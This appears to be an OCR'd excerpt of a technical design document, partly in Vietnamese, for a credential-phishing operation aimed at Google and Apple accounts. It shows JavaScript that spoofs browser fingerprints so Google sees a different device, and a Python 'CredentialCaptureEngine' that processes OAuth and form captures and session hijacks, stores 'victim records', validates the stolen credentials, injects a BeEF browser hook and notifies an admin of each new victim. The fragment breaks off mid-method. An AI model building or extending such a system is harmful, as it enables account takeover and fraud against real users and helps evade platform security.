 ```javascript
                '1366x768': 0.35,  // Most common laptop resolution
                '1920x1080': 0.40, // Standard FHD
                '1440x900': 0.15,  // MacBook Pro
                '1280x720': 0.10   // Lower-end devices
            },
            operating_systems: {
                'Windows 10': 0.55,
                'Windows 11': 0.25,
                'macOS': 0.15,
                'Linux': 0.05
            }
        };
        
        return this.generateFingerprintFromProfile(vietnameseCharacteristics);
    }
    
    async applyFingerprintToSession(fingerprint) {
        // Override browser properties để Google nhận diện là device khác
        await this.overrideNavigatorProperties(fingerprint);
        await this.spoofScreenProperties(fingerprint.screen);
        await this.injectCustomPlugins(fingerprint.plugins);
        await this.modifyCanvasRendering(fingerprint.canvas_signature);
    }
}
```

#### 3. Credential Capture & Processing Engine
**Core Architecture**: Event-driven processing với real-time validation
**Technologies**: Python (FastAPI), Celery (async tasks), MongoDB (document storage)

```python
class CredentialCaptureEngine:
    def __init__(self):
        self.capture_processors = {
            'oauth_google': GoogleOAuthProcessor(),
            'oauth_apple': AppleOAuthProcessor(),
            'form_direct': DirectFormProcessor(),
            'session_hijack': SessionHijackProcessor()
        }
        self.validation_pipeline = CredentialValidationPipeline()
        self.notification_system = RealTimeNotificationSystem()
    
    async def process_capture_event(self, capture_data):
        """Main entry point for credential capture processing"""
        
        # 1. Initial data normalization and validation
        normalized_data = await self.normalize_capture_data(capture_data)
        
        # 2. Store raw capture data
        victim_record = await self.create_victim_record(normalized_data)
        
        # 3. Queue for validation and enrichment
        await self.queue_for_validation(victim_record.id)
        
        # 4. Inject BeEF hook if applicable
        if normalized_data.get('inject_beef', True):
            await self.inject_beef_hook(victim_record.session_data)
        
        # 5. Send real-time notification to admin
        await self.notification_system.notify_new_victim(victim_record)
        
        return victim_record
    
    async def validate_captured_credentials(self, victim_id):
```